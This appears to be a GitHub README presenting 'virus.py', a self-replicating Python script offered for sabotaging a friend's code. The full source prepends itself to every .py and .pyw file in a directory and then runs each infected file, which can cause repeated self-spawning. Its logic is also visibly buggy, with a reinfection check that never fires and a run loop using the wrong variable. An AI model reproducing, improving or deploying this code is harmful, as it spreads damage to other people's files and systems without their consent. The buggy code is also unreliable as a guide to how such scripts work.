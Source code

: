 # virus.py
## A Python file bomber
### How it works
So, ever got access to your friend's code, and want to make the code permently unreadable?
Well with this, you can, it's one of the fastest ways to do that, and it also spreads to other files in the dirertory.
### How to use it
You can just copy and paste the code below into the program or copy and paste the code in `main.py`, it's really that easy! (also, the `# VIRUS SAYS HI!` and `# VIRUS SAYS BYE!` are required for it to work.)
```python3
# VIRUS SAYS HI!
# Copyright NarmakTwo, all rights reserved
import sys
import glob
import os
print('Never gonna give you up\nNever gonna let you down\nNever gonna run around, and desert you\nNever gonna make you cry\nNever gonna say goodbye\nNever gonna tell a lie, or hurt you\n')
virus_code = []
with open(sys.argv[0], 'r') as f:
    lines = f.readlines()
self_replicating_part = False
for line in lines:
    if line == "# VIRUS SAYS HI!":
        self_replicating_part = True
    if not self_replicating_part:
        virus_code.append(line)
    if line == "# VIRUS SAYS BYE!\n":
        break
python_files = glob.glob('*.py') + glob.glob('*.pyw')
for file in python_files:
    with open(file, 'r') as f:
        file_code = f.readlines()
    infected = False
    for line in file_code:
        if line == "# VIRUS SAYS HI!\n":
            infected = False
            break
    if not infected:
        final_code = []
        final_code.extend(virus_code)
        final_code.extend('\n')
        final_code.extend(file_code)
        with open(file, 'w') as f:
            f.writelines(final_code)
for i in python_files:
  os.system(f'python3 {os.path.abspath(file)} $')
# VIRUS SAYS BYE!
```
### License
You can find the license in `LICENSE.md`
